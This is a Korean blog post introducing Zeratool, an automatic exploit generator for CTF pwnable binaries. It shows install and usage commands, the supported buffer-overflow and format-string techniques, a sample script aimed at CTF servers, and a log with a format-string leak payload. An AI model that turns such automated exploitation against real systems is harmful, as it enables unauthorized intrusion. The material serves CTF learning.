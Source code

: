 ```yaml
---
layout: post
title: "Pwn using zeratool"
date: 2020-02-22   
tags: [pwnable,hacking,setting,linux,system,tool,heap]
comments: false
---
```



zeratool == CTF 포너블 문제를 위한 자동 익스플로잇 생성기와 원격 FLAG 캡쳐 도구

## Introduction
이 도구는 angr를 통하여 printf 후킹과 제약되지 않은 경로를 찾아 바이너리를 분석하고, pwntools와 스크립트 트릭을 통해 원격 코드 실행을 편하게 해준다. 마지막으로 페이로드가 로컬에서 테스트된 후 리모트 CTF서버에 제출되어 플래그를 얻을 수 있다.


[![asciicast](https://asciinema.org/a/188002.png)](https://asciinema.org/a/188002)

## Installing
- Zeratool은 Ubuntu 16.04에서 테스트되었다고하며, 설치 스크립트는 Ubuntu 12.04에서 Ubuntu 18.04까지 지원됩니다.
```
./install.sh
```

## Usage
Zeratool은 바이너리를 인자로 받아들이고 선택적으로 링크된 libc 라이브러리 및 CTF 서버 연결 정보를 인자로 추가할 수 있는 python 스크립트입니다.
```
[chris:~/Zeratool] [angr] python zeratool.py -h
usage: zeratool.py [-h] [-l LIBC] [-u URL] [-p PORT] [-v] file

positional arguments:
  file                  File to analyze

optional arguments:
  -h, --help            show this help message and exit
  -l LIBC, --libc LIBC  libc to use
  -u URL, --url URL     Remote URL to pwn
  -p PORT, --port PORT  Remote port to pwn
  -v, --verbose         Verbose mode
```

## Exploit Types
Zeratool은 Buffer Overflow 및 Format String 버그에 대하여 지원합니다.

* Buffer Overflow
    * Point program counter to win function
    * Point program counter to shellcode
    * Point program counter to rop chain
        * ROP chains need a libc base address
        * one-gadget and ropper are used rop chain building
* Format String
    * Point GOT entry to win function
    * Point GOT entry to shellcode

## Examples
challenges 폴더에 있는 바이너리 혹은 samples.sh를 통해서 어떻게 동작하는지 테스트해 볼 수 있습니다.
```
#!/bin/bash
#Buffer Overflows with win functions
python zeratool.py challenges/ret -u ctf.hackucf.org -p 9003
python zeratool.py challenges/bof3 -u ctf.hackucf.org -p 9002
python zeratool.py challenges/bof2 -u ctf.hackucf.org -p 9001
python zeratool.py challenges/bof1 -u ctf.hackucf.org -p 9000

#Down for the summer
#python zeratool.py challenges/easy_format -u tctf.competitivecyber.club -p 7801
#python zeratool.py challenges/medium_format -u tctf.competitivecyber.club -p 7802

#Format string leak
python zeratool.py challenges/easy_format
#Format string point to win function
python zeratool.py challenges/medium_format
#Format string point to shellcode
python zeratool.py challenges/hard_format #This one sometimes needs to be run twice

#Buffer overflow point to shellcode
python zeratool.py challenges/demo_bin
```

## Example(easy_format)
```
(zeratool) root@5ba1527e39bb:/pwd/Downloads/Zeratool-master# python zeratool.py challenges/easy_format
[+] Checking pwn type...
[+] Checking for overflow pwn type...
[+] Checking for format string pwn type...
[+] Found symbolic buffer at position 0 of length 49
[+] Vulnerable path found %x_%
[+] Triggerable with STDIN : %x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x

[+] Getting binary protections
[+] Checking for flag leak
[~] Odd length string detected... Skipping
[~] Odd length string detected... Skipping
[~] Odd length string detected... Skipping
[~] Odd length string detected... Skipping
[+] Flag found:
[+] Returned eyU`Zflag{y0u_g0t_1t}
%x_%8x_%17$08x_%18$08x_%19$08x_%20$08x_%21$08x_%22$08x_%23$08x_%8x_%41$08x_%42$08x_%43$08x_%44$08x_%45$08x_%46$08x_%47$08x
```

## Reference
[Zeratool](https://github.com/ChrisTheCoolHut/Zeratool)
